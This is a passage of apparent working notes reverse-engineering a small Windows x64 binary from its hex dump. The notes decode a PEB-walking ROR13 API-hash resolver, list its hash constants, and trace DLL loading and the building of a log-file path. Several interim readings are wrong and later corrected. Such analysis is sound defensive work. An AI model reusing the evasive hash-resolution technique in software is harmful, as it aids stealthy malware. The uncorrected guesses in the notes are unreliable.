0x170 reloc 0
0x178 debug weird 0x201000 size 0x3800?
0x180 architecture 0
0x188 globalptr 0
0x190 TLS 0
0x198 load config 0
0x1a0 bound import? bytes `00 00 00 00 00 00 00 00 00 20 00 00 10 00 00 00`: Wait 0x1a0-0x1a7 = 0? 0x1a8 = 00 20 00 00, size 0x1000? That would be IAT RVA 0x2000 size 0x10 maybe if shifted by one. Let's carefully align: at 0x1a0 row:
0x1a0 00
1a1 00
1a2 00
1a3 00
1a4 00
1a5 00
1a6 00
1a7 00
1a8 00
1a9 20
1aa 00
1ab 00
1ac 10
1ad 00
1ae 00
1af 00
This suggests directory at 0x1a8 = RVA 0x2000, size 0x10. If so data dirs start at 0x150 not 0x148? Let's see: if start 0x150, then:
0x150 export? 0x216c (could be import? no, export 0x216c size 0x28?)
0x158 import 0
0x160 resource 0x3000 size 0x18
0x168 exception 0
0x170 security 0
0x178 reloc weird
0x180 debug 0
0x188 arch 0
0x190 globalptr 0
0x198 TLS 0
0x1a0 load config 0
0x1a8 IAT? Actually 13th IAT at start+12*8 = 0x150+0x60=0x1b0 not 0x1a8. Hmm.
Let's locate section headers exactly. Third .pdata header 0x218. 3 headers * 40 = 120 bytes, starts 0x218 - 80 = 0x1c8. So section table starts 0x1c8. Then optional header ends 0x1c8. Optional starts 0xd8. Size 0xf0. Correct. Data directories (128 bytes) start 0x148 and end 0x1c8. Yes. So mapping above is correct.
Thus at 0x178 debug dir value 0x00201000? But maybe debug RVA can't exceed image. Could be a deliberate obfuscation/corruption? Let's calculate value differently. Could it be bytes at 0x179? Maybe the previous directory (base reloc at 0x170) size is nonzero? At 0x170-0x177 all zero. Maybe number of dirs = 0x10 but the line 0x170 has `00 10 20 00 00 38 00 00` at 0x178; yes.
Wait maybe image size is 0x4000? Actually SizeOfImage at 0x110 is `00 40 00 00` = 0x4000. RVA 0x201000 is impossible. But .rdata at RVA 0x2000, so if bytes were `00 20 00 00` RVA 0x2000. The given value appears `00 10 20 00 00 38 00 00`. Could this be because line 0x170 actually has 16 bytes: offsets 0x170-0x17f; if a directory at 0x177? Let's shift directories if optional header size is 0xe8? But COFF size optional bytes at 0xd4 = f0? Let's re-check d0 line: `00 00 00 00 f0 00 22 00 0b 02 0e 24 00 0a 00 00` yes f0 00. Optional from 0xd8 to 0x1c7. Data dirs at 0x148. No.
Could PE optional header have a different field order? No.
Maybe the hex dump is synthetic/compiled with some weird values, but that's okay. We can still infer.
Need reverse code. Let's decode main function at RVA 0x1000 (file 0x400). There's entry `e9 03 00 00 00 cc...` at 0x400, meaning jmp +3 to 0x408? Entry point 0x1000. Actually e9 03 00 00 00 jumps 3 bytes from next instruction 0x405 to 0x408. 0x405-0x407 cc. At 0x408 starts function prologue.
Code appears dynamically resolves API hashes. Let's analyze.
At 0x408:
40 55 push rbp
53 push rbx
56 push rsi
57 push rdi
41 54 push r12
41 55 push r13
41 56 push r14
41 57 push r15
48 8d ac 24 e8 f2 ff ff lea rbp,[rsp-0xd18]? Let's compute 0xfff2e8? Actually `e8 f2 ff ff` = -0xd18. sub rsp? After pushes 8*8=64, then lea rbp,[rsp-0xd18], then sub rsp,0xe18? Yes stack allocation ~0xe18 plus rbp. Large local buffer.
`b9 4c 77 26 07` mov ecx,0x0726774c
`e8 f6 06 00 00` call 0xb2d? Need compute target: at 0x425? Let's see call at 0x425? Code:
0x420: 18 0e 00 00 b9 4c 77 26 07 e8 f6 06 00 00 33 ff
Offsets:
0x420 18
0x421 0e
0x422 00
0x423 00
0x424 b9
0x425 4c
0x426 77
0x427 26
0x428 07
0x429 e8
0x42a f6
0x42b 06
0x42c 00
0x42d 00
0x42e 33 ff
Call at 0x429, next 0x42e, +0x6f6 = 0xb24. In code we see function at 0xb24? At 0xb20: 5b 5d c3 cc 48 8b c4... Function at 0xb24? Yes `48 8b c4` is at 0xb24. That's likely hash resolver. Let's inspect.
At 0xb24 function:
48 8b c4 mov rax,rsp
48 89 58 08 mov [rax+8],rbx
48 89 68 10
48 89 70 18
48 89 78 20
41 56 push r14
48 83 ec 10 sub rsp,0x10
65 48 8b 04 25 60 00 00 00 mov rax,gs:[0x60] ; PEB
8b e9 mov ebp,ecx ; hash parameter
45 33 f6 xor r14d,r14d
48 8b 50 18 mov rdx,[rax+0x18] ; PEB->Ldr
4c 8b 42 10 mov r8,[rdx+0x10] ; InMemoryOrderModuleList
4d 39 70 30 cmp [r8+0x30],r14 ; check DllBase?
0f 84 b7 00 00 00 je ...
4d 8b 48 30 mov r9,[r8+0x30] ; DllBase
41 8b d6 mov edx,r14d
41 0f 10 40 58 movups xmm0,[r8+0x58] ; BaseDllName?
4d 8b 00 mov r8,[r8] ; next
49 63 41 3c movsxd rax,dword [r9+0x3c] ; e_lfanew
f3 0f 7f 04 24 movdqu [rsp],xmm0 ; save module name Unicode string?
46 8b 9c 08 88 00 00 00 mov r11d,[rax+r9+0x88] ; export dir size? PE32+ data dir export at optional+0x70? Actually +0x88 from PE? r9 + e_lfanew + 0x88: PE header at +0x3c? Let's compute optional header data directory export is at PE+0x88? PE signature 4 + COFF 20 = 0x18, optional export dir at optional+0x70=0x88 from PE start, yes. So r11d = export directory RVA (not size) from data dir.
45 85 db test r11d,r11d
74 d1 je next module
...
It iterates loaded modules in PEB loader list, computes hash of module name? Let's decode hash. It reads Unicode string length at [rsp]? `movups xmm0,[r8+0x58]` from LDR_DATA_TABLE_ENTRY: offset 0x58 is BaseDllName (UNICODE_STRING: Length, MaximumLength, Buffer). At 0x60? Actually in x64 LDR_DATA_TABLE_ENTRY: InLoadOrderLinks 0x0, InMemoryOrderLinks 0x10, InInitializationOrderLinks 0x20, DllBase 0x30, EntryPoint 0x38, SizeOfImage 0x40, FullDllName 0x48, BaseDllName 0x58. So [r8+0x58] = BaseDllName UNICODE_STRING 16 bytes. Save to stack [rsp] (Length at [rsp], Buffer at [rsp+8]).
Then:
48 8b 04 24 mov rax,[rsp] ; Length + max length?
48 c1 e8 10 shr rax,0x10 ; gets Length? Since UNICODE_STRING layout: USHORT Length at 0, MaximumLength at 2, padding, Buffer at 8. On little endian qword at rsp = Length | (MaxLength<<16) | (padding <<32). Shift 16 -> MaximumLength, not length. Hmm but they compare `66 44 3b f0` cmp r14w, ax? Let's see:
66 44 3b f0 cmp r14w, ax (r14=0) => if maxlength? Hmm perhaps checks length high? Let's decode sequence:
48 8b 04 24 mov rax,[rsp]
48 c1 e8 10 shr rax,0x10
66 44 3b f0 cmp r14w, ax
73 22 jae ...
48 8b 4c 24 08 mov rcx,[rsp+8] ; buffer
44 0f b7 d0 movzx r10d, ax ; maybe length?
0f be 01 movsx eax, byte [rcx]
c1 ca 0d ror edx,0xd
80 39 61 cmp byte [rcx],0x61
7c 03 jl ...
83 c2 e0 add edx,-0x20
03 d0 add edx,eax
48 ff c1 inc rcx
49 83 ea 01 sub r10,1
75 e7 jnz
4f 8d 14 19 lea r10,[r9+r11] ; export dir VA
45 8b de mov r11d,r14d ; index
41 8b 7a 20 mov edi,[r10+0x20] ; AddressOfNames RVA
49 03 f9 add rdi,r9
45 39 72 18 cmp [r10+0x18],r14d ; NumberOfNames
76 8d jbe ...
... function name hashing and matching.
Wait hash of module name lowercased if char >= 'a'? It does `cmp byte [rcx],0x61; jl +3; add edx,-0x20` meaning if char >= 'a' subtract 0x20 (uppercase). That's slightly odd: maybe only lowercase a-z? It doesn't check <= z, but okay. It computes rolling hash: `ror edx,0xd; add edx,eax` after uppercase. r14 zero, initial edx=0. That's ROR13 hash (common shellcode API hashing). The parameter hash in ecx (ebp) compared later.
The loop:
At 0xbb0 maybe `4f 8d 14 19 lea r10,[r9+r11]` export dir.
`45 8b de mov r11d,r14d` index=0
`41 8b 7a 20 mov edi,[r10+0x20]` AddressOfNames
`49 03 f9 add rdi,r9`
`45 39 72 18 cmp [r10+0x18],r14d` NumberOfNames
`76 8d jbe 0xb45?` Jump if no names maybe next module? Let's compute target. At 0xbd8? Actually code:
0xbc9? Let's map addresses:
0xbb0: 75 e7 (jnz 0xb99)
0xbb2: 4f 8d 14 19 lea r10,[r9+r11]
0xbb6: 45 8b de mov r11d,r14d
0xbb9: 41 8b 7a 20 mov edi,[r10+0x20]
0xbbd: 49 03 f9 add rdi,r9
0xbc0: 45 39 72 18 cmp [r10+0x18],r14d
0xbc4: 76 8d jbe 0xb53? 0xbc6 + 0xffffff8d = 0xb53. That's inside module iteration? likely next module.
0xbc6: 8b 37 mov esi,[rdi] ; name RVA
0xbc8: 41 8b de mov ebx,r14d (0) ; hash
0xbcb: 49 03 f1 add rsi,r9
0xbce: 48 8d 7f 04 lea rdi,[rdi+4]
0xbd2: 0f be 0e movsx ecx,byte [rsi]
0xbd5: 48 ff c6 inc rsi
0xbd8: c1 cb 0d ror ebx,0xd
0xbdb: 03 d9 add ebx,ecx
0xbdd: 84 c9 test cl,cl
0xbdf: 75 f1 jnz 0xbd2
...
So API name hash similarly ROR13 but no case normalization? It just uses raw chars. Compares `8d 04 13` lea eax,[rbx+rdx]? Wait edx was module hash? Let's see after module hash, edx holds module hash? At 0xb9? It compared `3b c5`? Let's decode more carefully.
Resolver function likely standard: hash module name, if equals target high bits? Actually function takes hash in ecx, computes module name hash into edx, then compares to ecx? Let's inspect later:
At 0xbe1: 8d 04 13 lea eax,[rbx+rdx] ; combine API hash + module hash?
0xbe4: 3b c5 cmp eax,ebp ; compare with requested hash
0xbe6: 74 0e je 0xbf6 found
0xbe8: 41 ff c3 inc r11d
0xbeb: 45 3b 5a 18 cmp r11d,[r10+0x18] ; NumberOfNames
0xbef: 72 d5 jb 0xbc6
0xbf1: e9 5d ff ff ff jmp 0xb53 next module?
0xbf6: 41 8b 42 24 mov eax,[r10+0x24] ; AddressOfNameOrdinals
0xbfa: 43 8d 0c 1b lea ecx,[r11+r11] ; index*2
0xbff: 49 03 c1 add rax,r9
0xc02: 0f b7 14 01 movzx edx,word [rcx+rax]
0xc06: 41 8b 4a 1c mov ecx,[r10+0x1c] ; AddressOfFunctions
0xc0a: 49 03 c9 add rcx,r9
0xc0d: 8b 04 91 mov eax,[rcx+rdx*4]
0xc10: 49 03 c1 add rax,r9
0xc13: eb 02 jmp 0xc17
0xc15: 33 c0 xor eax,eax
0xc17: restore, ret.
So it computes API hash = ror13(api_name) + module_hash? Wait edx after module name hash is used in `lea eax,[rbx+rdx]`, so target hash is sum of module hash and function hash? Actually many shellcode hashes combine module name and function name using some formula. Here ecx parameter can be a 32-bit hash sum. The module hash is in edx after module name loop; function hash in ebx; eax=ebx+edx; compare to ebp. So requested hash is module_hash + function_hash. Standard "Metasploit block_api" uses ROR13 hash of function name only and module base? Actually it uses hash of module+function? Let's recall: Metasploit's block_api.com uses `call find_function` with hashes for API function, and it computes module name hash via `ror edx, 0xd` and compares `cmp edx, [ebp+...]`? Actually this custom resolver likely hashes both module and function and sums.
The entry calls resolver with constants:
0x0726774c (then maybe get LoadLibraryA in kernel32? Let's identify)
Then constructs strings "User32.dll", "ws2_32.dll", "msvcrt.dll" and resolves LoadLibraryA? Actually first call before constructing strings with ecx=0x0726774c.
Let's identify ROR13 hashes. Common known hashes:
- kernel32.dll LoadLibraryA ROR13? In Metasploit, LoadLibraryA hash = 0xec0e4e8e (function only). Not 0x0726774c.
Here hash includes module + function maybe. Need not identify exactly. But we can identify functions by strings and behavior.
At 0x42e: `33 ff xor edi,edi`; then writes local strings:
cmp [rbp+50h], dword 'User'? Actually `c7 45 50 75 73 65 72` = 'user' at rbp+0x50, `c7 45 54 33 32 2e 64` = "32.d", `66 c7 45 58 6c 6c` = "ll", plus null at 0x5a. So "User32.dll" at rbp+0x50. Calls function pointer in rbx (result of first resolver) with rcx=&string. So first resolved API is LoadLibraryA. It loads User32.dll, ws2_32.dll, msvcrt.dll. Yes.
Then at 0x48a:
b9 29 80 6b 00 mov ecx,0x006b8029; call resolver. Then `48 89 85 a0...` result.
b9 ea 0f df e0 mov ecx,0xe0df0fea; call; result stored?
b9 99 a5 74 61 mov ecx,0x6174a599; call; result -> rdi
b9 c2 eb 38 5f mov ecx,0x5f38ebc2; call; result -> r14
b9 58 a4 53 e5 mov ecx,0xe553a458; call; result stored at rbp+0xa8
b9 02 d9 c8 5f mov ecx,0x5fc8d902; call; result stored rbp+0x90
b9 75 6e 4d 61 mov ecx,0x614d6e75; call; result -> rdi (overwrites prior?)
b9 a9 28 34 80 mov ecx,0x803428a9; call; result stored rbp+0x98
b9 12 1e 7b 4d mov ecx,0x4d7b1e12; call; result -> r13
b9 8d 60 eb d0 mov ecx,0xd0eb608d; call; result -> r12
b9 31 fa f2 70 mov ecx,0x70f2fa31; call; result -> rsi
b9 30 f3 49 e4 mov ecx,0xe449f330; call; result -> rbx
Then:
48 8d 95 90 02 00 00 lea rdx,[rbp+0x290]
b9 80 00 00 00 mov ecx,0x80
ff d0 call rax ; rax = result of 0xe449f330? Wait last call result moved to rbx at 0x530, then `lea rdx...; mov ecx,0x80; call rax`. But rax after `mov rbx, rax` still result of last resolver call (0xe449f330). So calls last API with rcx=0x80, rdx=buffer at rbp+0x290, likely memset? Actually calling convention: rcx=0x80 (size), rdx=buffer. Could be `memset(buffer, 0, 0x80)`? No only rcx, rdx no r8? Maybe `gets_s`? Wait function at 0x530 is result of hash 0xe449f330, likely `memset`? Last resolved API maybe `memset`? But call with ecx=0x80, rdx=ptr; if prototype memset(void *dest, int c, size_t count): rcx=dest=0x80 (invalid!) Unless it's `Sleep(0x80)`? But rdx pointer ignored. Hmm maybe call rax with rcx=0x80, rdx=buffer is `GetComputerNameA`? Let's not jump.
Actually note after resolving 0xe449f330 into rbx, rax still points to function. Then `lea rdx,[rbp+0x290]; mov ecx,0x80; call rax`. The function probably `memset`? But arguments: for x64 Windows, first arg rcx=0x80, second rdx=&buf, third r8 unspecified. If it's `VirtualAlloc`, args rcx=0x80, rdx=addr, r8=... no. Could be `GetModuleFileNameA(hModule=NULL? rcx=0x80? no)`. Could be `GetEnvironmentVariableA(name, buf, size)`? rcx=0x80 as name pointer invalid.
Wait maybe `call rax` invokes result of hash 0xe449f330, but perhaps last call's result was not stored in rax? Let's check: at 0x52a `b9 30 f3 49 e4`; call at 0x52f? `e8 ee 05 00 00`; then at 0x534 `48 8d 95 90 02 00 00`; `b9 80 00 00 00`; `ff d0`. So yes rax = function result. But resolver returns function pointer indeed. So call with rcx=0x80, rdx=&local. Maybe function is `RtlZeroMemory`? No RtlZeroMemory(dest,size) -> rcx=dest (0x80), rdx=size (ptr) incorrect when reversed? Actually in x64 Windows, first arg rcx, second rdx. They set rcx=0x80, rdx=buf, so if function is `memset(buf, 0, 0x80)` they'd need rcx=buf, edx=0, r8d=0x80. Not.
Could be `GetSystemInfo`? Takes one arg. Or `Sleep(0x80)` only uses rcx; rdx harmless. Then after, they format strings. Hmm likely not relevant.
Let's identify resolved APIs via behavior and string constants. The binary constructs log/HTTP request strings. It might be a "meterpreter" stager? Let's decode strings.
At 0x53e:
33 c0 xor eax,eax
c7 45 a0 25 73 25 73 ; "%s%s" at rbp-0x60
88 45 a6 ; null
4c 8d 4d 30 lea r9,[rbp+0x30]
48 8d 85 60 0d 00 00 lea rax,[rbp+0xd60]
66 c7 45 a4 25 73 ; "%s"
4c 8d 85 90 02 00 00 lea r8,[rbp+0x290]
48 89 44 24 20 mov [rsp+0x20],rax
48 8d 55 a0 lea rdx,[rbp-0x60]
c7 45 30 6c 6f 67 5f ; "log_"
48 8d 8d 90 02 00 00 lea rcx,[rbp+0x290]
c7 45 34 64 65 2e 00 ; "de."
c7 85 60 0d 00 00 6c 6f 67 00 ; "log"
ff d6 call rsi
So calls function pointer rsi (hash 0x70f2fa31) with args:
rcx = rbp+0x290 (buffer), rdx = format "%s%s", r8 = rbp+0x290, r9 = &"log_de" (rbp+0x30), stack arg = rbp+0xd60 ("log"). This looks like `sprintf_s(buffer, size?, format, ...)`? Wait sprintf signature: int sprintf(char *buffer, const char *format, ...), so rcx=buffer, rdx=format, r8=arg1, r9=arg2, stack arg=arg3. Thus rsi is `sprintf` or `sprintf_s`? Actually `sprintf` (msvcrt) takes buffer, format, args. But format "%s%s" with args r8=rbp+0x290 and r9=rbp+0x30? That would set buffer = buffer + "log_" leading to weird self-reference. Wait perhaps `sprintf_s(buffer, sizeOfBuffer, format, ...)` has rcx=buffer, rdx=size? Here rdx=format "%s%s", so it's `sprintf`, not sprintf_s. But the local strings: at rbp+0x30 is "log_de."? Wait bytes: `c7 45 30 6c 6f 67 5f` = "log_", `c7 45 34 64 65 2e 00` = "de.\0" -> combined "log_de." (6 chars). At rbp+0xd60: "log\0". At rbp+0x290 buffer initially empty (maybe 0x80 bytes). Format at rbp-0x60 = `%s%s` at rbp-0x60? Wait `c7 45 a0 25 73 25 73` writes "%s%s" at rbp-0x60 (0xa0 signed? rbp-0x60). Yes rdx=&format. rcx=buffer. r8=rbp+0x290 (same as buffer), r9=rbp+0x30 ("log_de."). Then third? stack arg at [rsp+0x20]=rbp+0xd60 ("log"). Format "%s%s" only consumes two args r8 and r9, so stack arg ignored. If buffer empty, sprintf(buffer,"%s%s", buffer, "log_de.") -> "log_de." but overlapping source/dest could be undefined. Hmm maybe they intended `sprintf(buffer, "%s%s", "log_de.", "log")` but args swapped? Let's check string at rbp+0x30 maybe "log_de." and rbp+0xd60 "log", so output should "log_de.log". Format might be "%s%s" and r8 = rbp+0x290? Wait Windows x64 variadic: rcx=buffer, rdx=format, r8=first vararg, r9=second, stack third. So yes r8=buffer (not string). Unless rsi is not sprintf but a custom function with different signature? Could be `strcpy_s`? No.
Maybe I misread r8: `4c 8d 85 90 02 00 00` = lea r8,[rbp+0x290] indeed buffer. But they may have set format at rbp-0x60 to `%s%s`, and also `r9 = rbp+0x30` and stack arg rbp+0xd60, but missing a first argument. They may rely on `r8` containing "log_" etc? Wait r8 points to same buffer that has initial contents? At 0x53e they zero eax, then `c7 45 a0` format, `88 45 a6` null. Then `lea r9,[rbp+0x30]`, `lea rax,[rbp+0xd60]`, etc. Buffer at rbp+0x290 was zeroed by the call before? The function called with rcx=0x80, rdx=buffer maybe could have written something into buffer, e.g. `GetTempPathA(0x80, buffer)`? Let's identify.
Call at 0x535: rcx=0x80, rdx=&buf. Which API takes length and buffer and fills buffer? `GetModuleFileNameA(HMODULE hModule, LPSTR lpFilename, DWORD nSize)` takes rcx=hModule, rdx=buf, r8=size, not. `GetCurrentDirectoryA(DWORD nBufferLength, LPSTR lpBuffer)` takes rcx=0x80, rdx=buf. Yes! GetCurrentDirectoryA(0x80, buffer) fills buffer with current directory. Hash 0xe449f330 could be GetCurrentDirectoryA. Then buffer contains e.g. "C:\...". Then sprintf(buffer, "%s%s", buffer, "log_de.") -> appends "log_de." to current dir? Actually %s%s with r8=buffer and r9="log_de." -> "C:\path\log_de."? Hmm but stack arg "log" could be intended as third? Wait format "%s%s" only 2. Maybe the intent: `sprintf(buffer, "%s%s", buffer, "log_de.")` creates base path + "log_de."; then later at 0x5a5 onward another formatted call creates names. Let's decode.
At 0x590:
`ff d6` call rsi (sprintf), `33 d2 xor edx,edx`, `48 8d 8d 90 02 00 00 lea rcx,[buf]`, `ff d3 call rbx` (hash 0xe449f330 = GetCurrentDirectory? Wait rbx was result 0xe449f330, called earlier at 0x535. Now after sprintf, calls rbx with rcx=buffer, edx=0. That doesn't match GetCurrentDirectoryA. Hmm maybe rbx is not GetCurrentDirectory. Let's re-evaluate registers.
At 0x48a sequence:
- 0x006b8029 -> rax stored [rbp+0xa0]
- 0xe0df0fea -> call, result? Let's map:
0x490 b9 29 80 6b 00
0x495 e8 8d 06 ... ; call
0x49a b9 ea 0f df e0
0x49f 48 89 85 a0 00 00 00 ; mov [rbp+0xa0], rax? Wait order: after call at 0x495, instruction at 0x49a is mov ecx, but bytes at 0x49a? Let's map accurately.
Hex around:
00000480: 64 66 6c 6c 40 88 7d 7a ff d3 b9 29 80
00000490: 6b 00 e8 8d 06 00 00 b9 ea 0f df e0 48 89
000004a0: 85 a0 00 00 00 e8 7c 06 00 00 b9 99 a5 74
000004b0: 61 48 8b f8 e8 6f 06 00 00 b9 c2 eb 38 5f
000004c0: 4c 8b f0 e8 62 06 00 00 b9 58 a4 53 e5 48
000004d0: 89 85 a8 00 00 00 e8 51 06 00 00 b9 02 d9
000004e0: c8 5f 48 89 85 90 00 00 00 e8 40 06 00 00
000004f0: b9 75 6e 4d 61 4c 8b f8 e8 33 06 00 00 b9
00000500: a9 28 34 80 48 89 85 98 00 00 00 e8 22 06
00000510: 00 00 b9 12 1e 7b 4d 4c 8b e8 e8 15 06 00
00000520: 00 b9 8d 60 eb d0 4c 8b e0 e8 08 06 00 00
00000530: b9 31 fa f2 70 48 8b f0 e8 fb 05 00 00 b9
00000540: 30 f3 49 e4 48 8b d8 e8 ee 05 00 00 48 8d
00000550: 95 90 02 00 00 b9 80 00 00 00 ff d0 ...
Ah I misaligned! Let's parse:
At 0x489? `ff d3` call rbx (LoadLibraryA) for msvcrt string. Then 0x48b `b9 29 80 6b 00` mov ecx,0x006b8029 at 0x48b? Need exact:
0x480: 64 66 6c 6c 40 88 7d 7a ff d3 b9 29 80
Offsets:
0x480 64
0x481 66
0x482 6c
0x483 6c
0x484 40
0x485 88
0x486 7d
0x487 7a
0x488 ff
0x489 d3
0x48a b9
0x48b 29
0x48c 80
0x48d 6b
0x48e 00
0x48f e8
0x490 8d
0x491 06
0x492 00
0x493 00
0x494 b9
0x495 ea
0x496 0f
0x497 df
0x498 e0
0x499 48
0x49a 89
0x49b 85
0x49c a0
0x49d 00
0x49e 00
0x49f 00
0x4a0 e8
0x4a1 7c
0x4a2 06
0x4a3 00
0x4a4 00
0x4a5 b9
0x4a6 99
0x4a7 a5
0x4a8 74
0x4a9 61
0x4aa 48
0x4ab 8b
0x4ac f8
0x4ad e8
0x4ae 6f
0x4af 06
0x4b0 00
0x4b1 00
0x4b2 b9
0x4b3 c2
0x4b4 eb
0x4b5 38
0x4b6 5f
0x4b7 4c
0x4b8 8b
0x4b9 f0
0x4ba e8
0x4bb 62
0x4bc 06
0x4bd 00
0x4be 00
0x4bf b9
0x4c0 58
0x4c1 a4
0x4c2 53
0x4c3 e5
0x4c4 48
0x4c5 89
0x4c6 85
0x4c7 a8
0x4c8 00
0x4c9 00
0x4ca 00
0x4cb e8
0x4cc 51
0x4cd 06
0x4ce 00
0x4cf 00
0x4d0 b9
0x4d1 02
0x4d2 d9
0x4d3 c8
0x4d4 5f
0x4d5 48
0x4d6 89
0x4d7 85
0x4d8 90
0x4d9 00
0x4da 00
0x4db 00
0x4dc e8
0x4dd 40
0x4de 06
0x4df 00
0x4e0 00
0x4e1 b9
0x4e2 75
0x4e3 6e
0x4e4 4d
0x4e5 61
0x4e6 4c
0x4e7 8b
0x4e8 f8
0x4e9 e8
0x4ea 33
0x4eb 06
0x4ec 00
0x4ed 00
0x4ee b9
0x4ef a9
0x4f0 28
0x4f1 34
0x4f2 80
0x4f3 48
0x4f4 89
0x4f5 85
0x4f6 98
0x4f7 00
0x4f8 00
0x4f9 00
0x4fa e8
0x4fb 22
0x4fc 06
0x4fd 00
0x4fe 00
0x4ff b9
0x500 12
0x501 1e
0x502 7b
0x503 4d
0x504 4c
0x505 8b
0x506 e8
0x507 e8
0x508 15
0x509 06
0x50a 00
0x50b 00
0x50c b9
0x50d 8d
0x50e 60
0x50f eb
0x510 d0
0x511 4c
0x512 8b
0x513 e0
0x514 e8
0x515 08
0x516 06
0x517 00
0x518 00
0x519 b9
0x51a 31
0x51b fa
0x51c f2
0x51d 70
0x51e 48
0x51f 8b
0x520 f0
0x521 e8
0x522 fb
0x523 05
0x524 00
0x525 00
0x526 b9
0x527 30
0x528 f3
0x529 49
0x52a e4
0x52b 48
0x52c 8b
0x52d d8
0x52e e8
0x52f ee
0x530 05
0x531 00
0x532 00
0x533 48
0x534 8d
0x535 95
0x536 90
0x537 02
0x538 00
0x539 00
0x53a b9
0x53b 80
0x53c 00
0x53d 00
0x53e 00
0x53f ff
0x540 d0
So indeed calls resolver at 0x48f with ecx=0x006b8029; next instruction at 0x494 `b9 ea 0f df e0` mov ecx; at 0x499 `48 89 85 a0...` store rax; etc. Need map:
- call 0x48f (hash 0x006b8029) -> rax
- 0x494 mov ecx, 0xe0df0fea
- 0x499 mov [rbp+0xa0], rax
- 0x4a0 call resolver -> rax
- 0x4a5 mov ecx,0x6174a599
- 0x4aa mov rdi,rax
- 0x4ad call resolver
- 0x4b2 mov ecx,0x5f38ebc2
- 0x4b7 mov r14,rax
- 0x4ba call resolver
- 0x4bf mov ecx,0xe553a458
- 0x4c4 mov [rbp+0xa8],rax
- 0x4cb call resolver
- 0x4d0 mov ecx,0x5fc8d902
- 0x4d5 mov [rbp+0x90],rax
- 0x4dc call resolver
- 0x4e1 mov ecx,0x614d6e75
- 0x4e6 mov rdi,rax
- 0x4e9 call resolver
- 0x4ee mov ecx,0x803428a9
- 0x4f3 mov [rbp+0x98],rax
- 0x4fa call resolver
- 0x4ff mov ecx,0x4d7b1e12
- 0x504 mov r13,rax
- 0x507 call resolver
- 0x50c mov ecx,0xd0eb608d
- 0x511 mov r12,rax
- 0x514 call resolver
- 0x519 mov ecx,0x70f2fa31
- 0x51e mov rsi,rax
- 0x521 call resolver
- 0x526 mov ecx,0xe449f330
- 0x52b mov rbx,rax
- 0x52e call resolver
- 0x533 lea rdx,[rbp+0x290]
- 0x53a mov ecx,0x80
- 0x53f call rax
Now rax = result of hash 0xe449f330 (last resolver). So hash 0xe449f330 is first API called with rcx=0x80, rdx=buffer. This likely `GetCurrentDirectoryA` as inferred, but then later calls rbx? Wait rbx is result of previous hash 0x70f2fa31, not 0xe449f330. Let's continue:
0x542? after call rax, at 0x542 `33 c0` etc. At 0x58? `ff d6` call rsi (hash 0x70f2fa31) and later `ff d3` call rbx (hash 0x70f2fa31? no, rbx set at 0x52b to result 0x70f2fa31). Let's check:
At 0x519 mov ecx,0x70f2fa31; call; 0x526 mov ecx,0xe449f330; 0x52b mov rbx,rax (result of 0x70f2fa31); 0x52e call resolver (0xe449f330); 0x533 lea rdx,[rbp+0x290]; 0x53a mov ecx,0x80; 0x53f call rax (result of 0xe449f330).
Then at 0x590 `ff d6` (rsi = result of 0x4d7b1e12? Wait rsi was set at 0x51e? Let's map registers:
- rdi = result at 0x4aa = hash 0xe0df0fea? Wait 0x494 set ecx=0xe0df0fea; call at 0x4a0; then 0x4aa mov rdi,rax => rdi = hash 0xe0df0fea.
- r14 = result at 0x4b7 = hash 0x6174a599.
- [rbp+0xa8] = result 0x5f38ebc2.
- [rbp+0x90] = result 0xe553a458.
- rdi overwritten at 0x4e6 = hash 0x5fc8d902.
- [rbp+0x98] = result 0x614d6e75.
- r13 = result 0x803428a9.
- r12 = result 0x4d7b1e12.
- rsi = result 0xd0eb608d.
- rbx = result 0x70f2fa31.
- rax = result 0xe449f330.
Then call rax at 0x53f (GetCurrentDirectoryA).
At 0x590, `ff d6` calls rsi = 0xd0eb608d, not sprintf. I earlier misattributed.
Let's map code 0x542-0x5a0:
0x540 d0
0x541? Let's parse from hex:
00000540: 30 f3 49 e4 48 8b d8 e8 ee 05 00 00 48 8d
00000550: 95 90 02 00 00 b9 80 00 00 00 ff d0 33 c0
00000560: c7 45 a0 25 73 25 73 88 45 a6 4c 8d 4d 30
00000570: 48 8d 85 60 0d 00 00 66 c7 45 a4 25 73 4c
00000580: 8d 85 90 02 00 00 48 89 44 24 20 48 8d 55
00000590: a0 c7 45 30 6c 6f 67 5f 48 8d 8d 90 02 00
000005a0: 00 c7 45 34 64 65 2e 00 c7 85 60 0d 00 00
000005b0: 6c 6f 67 00 ff d6 33 d2 48 8d 8d 90 02 00
000005c0: 00 ff d3 33 db 85 c0 0f 84 68 05 00 00 ...
So:
0x542 xor eax,eax
0x544 mov dword [rbp-0x60], '%s%s' = 0x73257325
0x54b mov byte [rbp-0x5a], al
0x54e lea r9,[rbp+0x30]
0x552 lea rax,[rbp+0xd60]
0x559 mov word [rbp-0x5c], '%s' (0x7325) at offsets 0xa4? Wait 0x559 `66 c7 45 a4 25 73` sets word at rbp-0x5c. But format starts at rbp-0x60: dword "%s%s" at -0x60..-0x5d, word "%s" at -0x5c..-0x5b, null at -0x5a -> combined "%s%s%s"? Yes! The dword at -0x60 is "%s%s" (4 bytes), then word at -0x5c is "%s" (2 bytes), then null at -0x5a -> format string "%s%s%s". Great, I missed second part. So sprintf with 3 args: r8=buffer, r9=&"log_de."? Wait 0x54e lea r9,[rbp+0x30], and stack arg [rsp+0x20] = rbp+0xd60. So args = buffer, "log_de.", "log". Format `%s%s%s` -> buffer + "log_de." + "log" = "C:\cwd\log_de.log" perhaps. Actually if buffer="C:\path" then output "C:\pathlog_de.log" missing slash. It likely GetCurrentDirectory returns path with trailing backslash? GetCurrentDirectory returns without trailing backslash except root. Maybe later adds? Let's inspect string "log_de." and "log": result likely log file name. At 0x590 format buffer at rbp+0x290, rdx=format, r8=buffer, r9=rbp+0x30, stack arg rbp+0xd60. Calls rsi = hash 0xd0eb608d. Wait I said rsi = 0xd0eb608d. Let's verify: at 0x519 mov ecx,0x70f2fa31; at 0x51e mov rsi,rax? Let's parse 0x50c-0x52b:
0x50c b9 8d 60 eb d0 (ecx=0xd0eb608d)
0x511 4c 8b e0 mov r12,rax (result of prior 0x4d7b1e12? Wait order)
Need full register mapping with exact sequence:
Let's rewrite calls sequence:
At 0x48a: ecx=0x006b8029
call 0x48f -> result A
At 0x494: ecx=0xe0df0fea
0x499: mov [rbp+0xa0], rax (A)
0x4a0: call -> result B
0x4a5: ecx=0x6174a599
0x4aa: mov rdi, rax (B)
0x4ad: call -> result C
0x4b2: ecx=0x5f38ebc2
0x4b7: mov r14, rax (C)
0x4ba: call -> result D
